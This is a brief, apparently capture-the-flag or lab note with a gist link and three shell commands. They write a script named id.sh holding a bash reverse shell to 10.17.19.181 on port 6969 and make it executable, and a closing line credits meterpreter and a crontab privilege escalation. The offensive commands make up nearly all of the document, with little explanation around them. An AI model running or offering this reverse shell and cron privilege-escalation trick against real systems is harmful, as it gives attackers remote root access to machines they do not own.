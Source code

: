 

https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd


echo '#!/bin/bash' > id.sh
echo 'bash -i >& /dev/tcp/10.17.19.181/6969 0>&1' >> id.sh
chmod +x id.sh

I did it via meterpreter and crontab privesc